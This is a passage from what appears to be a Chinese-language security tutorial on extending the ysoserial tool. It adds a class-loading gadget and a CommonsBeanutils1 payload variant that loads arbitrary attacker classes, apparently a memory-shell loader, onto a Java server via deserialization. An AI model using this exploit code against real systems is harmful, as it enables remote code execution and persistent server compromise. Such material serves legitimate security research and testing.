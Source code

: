 ```java
            cc.newInstance().equals(new Object[]{request,response,session});
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public void transform(DOM arg0, SerializationHandler[] arg1) throws TransletException {
    }
    public void transform(DOM arg0, DTMAxisIterator arg1, SerializationHandler arg2) throws TransletException {
    }
}
```



然后在ysoserial.payloads.util包的Gadgets类中照着原有的createTemplatesImpl方法添加一个createTemplatesImpl(Class c)，参数即为我们要让服务端加载的类，如下直接将传入的c转换为字节码赋值给了_bytecodes

```java
public static <T> T createTemplatesImpl(Class c) throws Exception {
    Class<T> tplClass = null;

    if ( Boolean.parseBoolean(System.getProperty("properXalan", "false")) ) {
        tplClass = (Class<T>) Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl");
    }else{
        tplClass = (Class<T>) TemplatesImpl.class;
    }

    final T templates = tplClass.newInstance();
    final byte[] classBytes = ClassFiles.classAsBytes(c);

    Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
        classBytes
    });

    Reflections.setFieldValue(templates, "_name", "Pwnr");
    return templates;
}
```



最后复制CommonsBeanutils1.java的代码增加一个payload CommonsBeanutils1_ClassLoader.java，再把其中

```java
final Object templates = Gadgets.createTemplatesImpl(command);
```

修改为

```java
final Object templates = Gadgets.createTemplatesImpl(ysoserial.MyClassLoader.class);
```



打包
